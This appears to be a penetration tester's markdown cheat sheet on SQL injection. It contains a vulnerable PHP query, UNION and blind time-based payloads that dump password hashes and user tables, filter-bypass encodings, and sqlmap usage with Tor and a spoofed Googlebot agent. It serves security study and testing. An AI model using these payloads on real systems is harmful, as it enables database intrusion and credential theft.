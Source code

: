 # SQL INJECTION

SQL Operators and Functions
---------------------------

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string. str=string; pos=starting position; len=length in characters.
`VERSION()` - returns a string that indicates the MySQL server version.

SQL comments: `/* actual comment text*/`  

MySQL delimiter (comment): `#`
SQL delimiter (comment): `--`

Only MySQL is using `version_comment`.

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

General Tips
------------

Find out if the web app is talking to a data store (i.e. file, web service, database).  
Look for parameter passing and insert single/double quote there - immediately after the parameter value or instead the parameter value.  
Browse the web app, note errors, behaviour.

PHP usually "talks" to MySQL.  
Understand, what tier we're messing with? Web server, app server, database?

Try `parameter?id=(5-2)`instead of 3 - get the same? Might mean that the injection is possible.

* "Always true" scenario:

```
%' OR '0'='0
%' OR 1=1--
"' OR '1'='1';-- " (note the space after the second hyphen)
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


Blind SQLi
----------

* [BBQSQL](https://github.com/Neohapsis/bbqsql) - blind SQLi exploitation tool  

When you put in a tick, you are redirected to a homepage? Suspicious.

```
id=2; waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=1) waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=2) waitfor delay '00:00:10'--
```

etc...

Then, look at ASCII chart and try guessing admin username:

```
id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'--
id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
```

etc.

Note: sqlmap tool is good for blind sqli.  
These days there's more union-based SQLi.


Circumventing Simple Validation
-------------------------------

If SELECT keyword is being blocked, try:

```
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```

Bypassing Simple Input Filtering / Smuggling
--------------------------------------------

Example code:

```
function unsqli($str){
        $str = str_replace("'", "\\'", $str);
        return "'".$str."'";
}
```

Bypass this filtering with `\'`.  

* http://web.archive.org/web/20130401091931/http://www.comsecglobal.com/FrameWork/Upload/SQL_Smuggling.pdf

SQLMAP
------

`sqlmap -u "URL" --cookie="COOKIE"`

--dbs: list databases  
-D [database]: specify a databases  
--tables: list tables  
-T users: list columns of users table  
-C user, password --dump  

* POST requests:  
`sqlmap -r post_request.txt -p <parameter>`  
* TOR: `--tor --tor-type=SOCKS5`  
* Fake user agent: `--user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)`

Tamper scripts, etc:

* [Exploiting a tricky SQL injection with SQLMap](http://pentestmonkey.net/blog/exploiting-a-tricky-sql-injection-with-sqlmap)
* [Bypassing WAFs with SQLMap](http://websec.ca/blog/view/Bypassing_WAFs_with_SQLMap)
* [SQLMap's Tamper Scripts](http://www.forkbombers.com/2013/05/sqlmaps-tamper-scripts.html)

Other Tools
-----------

* Havij
* sqlninja
* Metasploit SQLi Module


Prevention Techniques
---------------------

* Input sanitization
* Prepared statements
* [Bobby Tables](http://bobby-tables.com/) - a guide to preventing SQLi


Resources
---------

* http://seclists.org/pauldotcom/2010/q3/341  
* https://www.notsosecure.com/more-on-true-and-error-blind-sql-injection/  
* https://www.notsosecure.com/exploiting-sql-injections-in-insert-statements/
* http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Willis.pdf
* [Great introduction to SQLi](https://www.youtube.com/watch?v=P6fLRmeEKKA)
* [MySQL SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
